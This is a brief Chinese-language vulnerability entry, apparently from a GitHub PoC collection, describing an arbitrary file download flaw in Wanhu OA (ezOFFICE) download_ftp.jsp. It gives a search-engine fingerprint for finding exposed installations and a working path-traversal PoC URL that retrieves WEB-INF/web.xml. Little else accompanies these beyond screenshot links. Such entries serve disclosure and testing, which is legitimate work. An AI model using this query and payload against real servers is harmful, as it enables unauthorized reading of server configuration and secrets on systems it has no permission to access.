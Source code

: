 # 

# 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132512473](./images/202205201325574.png)

验证POC

```
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![image-20220520132537562](./images/202205201325636.png)


